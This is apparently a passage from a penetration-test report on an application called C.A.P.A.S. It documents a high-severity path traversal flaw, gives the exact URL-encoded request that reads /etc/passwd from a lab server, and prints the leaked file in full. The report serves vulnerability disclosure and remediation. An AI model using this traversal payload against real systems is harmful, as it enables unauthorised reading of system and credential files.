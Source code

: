 the attacker was able to retrieve the contents of the /etc/passwd file, which contains sensitive information about user accounts on the server.

#### Severity 
High

##### Impact in Business Context
This vulnerability poses a significant security risk as it allows attackers to gain access to sensitive system files. The /etc/passwd file contains critical information about user accounts, including usernames, and system configuration details. If this file is exposed, attackers could potentially perform further enumeration, privilege escalation, or other attacks targeting system users. In the context of C.A.P.A.S., which handles sensitive attack submission details, this vulnerability could lead to unauthorized access to administrative credentials or system configurations, jeopardizing the confidentiality and integrity of user data.

#### Evidence
- Request
    ```json
    GET /v1/static/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
    Host: 192.168.72.128:3000
    ```

- Respone
    ```text
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
    sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    silver:x:1000:1000:Silverskin:/home/silver:/bin/bash
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    mongodb:x:113:117::/var/lib/mongodb:/usr/sbin/nologin
    fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
    ```
